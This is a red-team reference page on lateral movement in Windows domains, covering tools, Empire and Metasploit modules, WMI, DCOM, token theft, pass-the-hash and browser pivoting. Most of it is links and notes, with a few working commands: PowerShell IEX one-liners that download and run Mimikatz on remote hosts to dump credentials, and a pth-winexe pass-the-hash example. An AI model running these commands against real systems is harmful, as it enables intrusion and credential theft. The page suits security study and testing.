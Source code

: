 # Lateral Movement

## Guides and Reference

<details>

<summary>Guides and Reference</summary>

* [https://www.ired.team/offensive-security/lateral-movement](https://www.ired.team/offensive-security/lateral-movement)
* [https://xapax.github.io/security/#attacking\_active\_directory\_domain/remote\_access/remote\_access/](https://xapax.github.io/security/#attacking\_active\_directory\_domain/remote\_access/remote\_access/)
* [PSExec Pass the Hash - Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)&#x20;
* [Lateral Movement via DCOM: Round 2 | enigma0x3](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)
* [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)

</details>

## Tools

<details>

<summary>Tools</summary>

* [keimpx](https://github.com/nccgroup/keimpx) - quickly check for valid credentials across a network over SMB.
* [Sonar.js](https://github.com/mandatoryprogrammer/sonar.js) - A framework for identifying and launching exploits against internal network hosts. Works via WebRTC IP enumeration combined with WebSockets and external resource fingerprinting.&#x20;
* [SprayWMI](https://github.com/trustedsec/spraywmi) - SprayWMI is a method for mass spraying [Unicorn](https://github.com/trustedsec/unicorn) PowerShell injection to CIDR notations.
* [LOLBAS](https://lolbas-project.github.io/) - Living Off The Land Binaries and Scripts (and also Libraries)
* [MalSCCM](https://github.com/nettitude/MalSCCM) - This tool allows you to abuse local or remote SCCM servers to deploy malicious applications to hosts they manage.
* [SCShell](https://github.com/Mr-Un1k0d3r/SCShell) - Fileless lateral movement tool that relies on ChangeServiceConfigA to run command

</details>

{% tabs %}
{% tab title="PSExec" %}
* Allows you to execute programs and code remotely using credentials
* Combine with Veil to create an obfuscated payload that can bypass AV
* _RTFM: PSExec Commands - pg. 18_
* Metasploit
  * \> use exploit/windows/smb/psexec\_psh
  * Use powershell encoded commands to mimic, ld psexec
  * It will spawn a meterpreter shell but will run in memory and not touch the disk. No need to create custom payload
{% endtab %}

{% tab title="CrackmapExec" %}
* CrackMapExec
  * Tool that sweep scans a local network with a set of harvested credentials to see what other services you can log into.
  * Built into Powershell Empire
  * Use permissions of an AD user to gain control of other systems
  * Empire module: situational\_awareness/network/powerview/find\_localadmin\_access \*\*\*Loud\*\*\*
{% endtab %}

{% tab title="PSEmpire" %}
* Powershell Empire tools
  * inveigh\_relay - SMB relay function
  * invoke\_executemsbuild - executes a powershell command on local/remote host using MSBuild.exe and an inline task.
  * invoke\_psremoting - executes a stager on remote hostss using PSRemoting. Victim must have PSRemoting enabled.
  * invoke\_sqloscmd - executes a command or stager on remote hosts using xp\_cmdshell
  * invoke\_wmi - execute a stager on remote hosts via WMI
  * jenkins\_script\_console - Deploys an empire agent against a Jenkins server with unauthed access to script console.
  * invoke\_dcom - invoke commands on remote hosts using MMC20.Application COM object over DCOM.
  * invoke\_psexec 0 executes a stager on remote host using PsExec type functionality. Oldy but a goodie
  * invoke\_smbexec - using samba tools
  * invoke\_sshcommand - executes a command on a remote host via SSH
  * Invoke\_wmi\_debugger - uses WMI to set the debugger for a target binary on a remote hosts to be cmd.exe or a stager
  * new\_gpo\_immediate\_task - Builds and immediate schtask to push through a specified GPO. mist have access to modify GPOs
    * [http://harmj0y.net/blog/empire/empire-1-5](http://harmj0y.net/blog/empire/empire-1-5)
  * _PTFM: Empire Admin Tools - pg. 52_
{% endtab %}
{% endtabs %}

## Techniques

{% tabs %}
{% tab title="WMI" %}
* Once you have harvested credentials and elevated the session on your current target, you can send remote commands to other devices using WMI
* Remote Mimikatz attack
  * \> wmic /USER:"hacker\testuser1" /PASSWORD:"asdfasdfasdf!" /NODE:\[target ip] process call create “powershell.exe -exec bypass IEX (Net-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/Powersploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds | Out-File C:\\\Users\\\public\\\a.txt”
  * dir\\\\\[target hostname]\c$\Users\Public\\
  * type\\\\\[target hostname]\c$\Users\Public\a.txt
  * del\\\\\[target hostname]\c$\Userse\Public\a.txt
* MassMimikatz - a better way to do the remote mimikatz attack
  * \> powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.Webclient).downloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1'); “'hostname1','hostname2' | Invoke-MassMimikatz -Verbose -FireWillRule”
{% endtab %}

{% tab title="DCOM" %}
* DCOM is a windows feature for communicating between software components on different remote machines
* These can be used when traditional options like WMI, Powershell remoting, and PSExec are being monitored.
* List all a machine's DCOM applications with powershell
  * Get-CimInstance Win32\_DCOMApplication
* There are many objects that allow remote code execution: ShellBrowserWindows, ShellWindows
* [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)
* _PTFM: DCOM- pg. 52_
{% endtab %}

{% tab title="Stealing Tokens" %}
* Stealing tokens
  * Metasploit Incognito - steal user tokens
  * Powershell Empire: steal\_tokens
  * Inject a new agent into a running process owned by a different user
    * PSInject - inject agent into processes using ReflectivePick to load up the .NET clanguage runtime into a process and execute a Powershell command without a new powershell.exe process
    * This will start a new agent running as a process owned by the new target.
    * [http://bit.ly/2HDxj6x](http://bit.ly/2HDxj6x)
{% endtab %}

{% tab title="MSSQL DB Links" %}
* [SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/)
* [SQL Server Link Crawling with PowerUpSQL](https://blog.netspi.com/sql-server-link-crawling-powerupsql/)
{% endtab %}

{% tab title="SCCM" %}
* [Targeted Workstation Compromise With Sccm](https://enigma0x3.net/2015/10/27/targeted-workstation-compromise-with-sccm/)
* [PowerSCCM - PowerShell module to interact with SCCM deployments](https://github.com/PowerShellMafia/PowerSCCM)


{% endtab %}

{% tab title="WSUS" %}
* [Remote Weaponization of WSUS MITM](https://www.sixdub.net/?p=623)
* [WSUSpendu](https://www.blackhat.com/docs/us-17/wednesday/us-17-Coltel-WSUSpendu-Use-WSUS-To-Hang-Its-Clients-wp.pdf)
* [Leveraging WSUS – Part One](https://ijustwannared.team/2018/10/15/leveraging-wsus-part-one/)
{% endtab %}
{% endtabs %}

<details>

<summary>Pass-the-hash</summary>

&#x20;[https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)

* Basic Local admin attack - the old way
  * Currently most local admin accounts are disabled by default and utilize LAPS to protect passwords
  * Requirements: local admin enabled, and RID is 500
  * If available we can run a a few modules to pull out those hashes.
  * Empire module: powershell/credentials/powerdump
  * Metasploit: [http://bit.ly/2qzsyDI](http://bit.ly/2qzsyDI)
* Breaking LAPS
  * metasploit - enum\_laps.rb
  * [https://room362.com/post/2017/dump-laps-passwords-with-ldapsearch/](https://room362.com/post/2017/dump-laps-passwords-with-ldapsearch/)
* pth-winexe
  * Pass the hash toolkit - modified winexe, performs auth using SMB
  * \# pth-winexe -U \[NTLM hash] \[SMB share] \[command to execute
  * \# pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
* [Performing Pass-the-hash Attacks With Mimikatz](https://blog.stealthbits.com/passing-the-hash-with-mimikatz)
* [How to Pass-the-Hash with Mimikatz](https://blog.cobaltstrike.com/2015/05/21/how-to-pass-the-hash-with-mimikatz/)
* [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)
* _PTFM: Metasploit/Emipre Pass-the-hash - pg. 52_

</details>

<details>

<summary>Browser Pivot</summary>

* Used to access an application that the user of the compromised workstation accesses regularly.
* This method can bypass authentication to that application
* Tasks: Inject code into IE process accessing the medical database, create a web proxy DLL based on the WnInet API, and passw eb traffic through our ssh tunnel and the new proxy
* Stage 1: DLL Injection - Injecting code into a currently running process
  * Attach to the target process
  * Allocate memory within the target process
  * Copy the DLL into the target process memory and calculate an appropriate memory addresses
  * Instruct target process to execute your DLLL
* Stage 2: Create a Proxy DLL based on the WinInet API
  * Any program can use the WinInet API, and it can handle tasks such as cookie and session managment, auth, etc...
  * WinInet API performs Auth on a per process basis
  * Inject our own proxy server into targets IE process and route our web traffic through it and inherit application session states. Including those with 2FA!
* Stage 3: Using the injected proxy server
  * Now we have an HTTP proxy running on our target machine and restructed it to the local ethernet int.
  * Next we must hardcode an additional tunnel into our payload.&#x20;

</details>

#### Password Spraying

{% content-ref url="password-attacks.md" %}
[password-attacks.md](password-attacks.md)
{% endcontent-ref %}

#### **Misc Techniques**

* Admin Shares
  * _PTFM: Admin Shares - pg. 51_
* SSH Hijack
  * _PTFM: SSH Hijack- pg. 110_

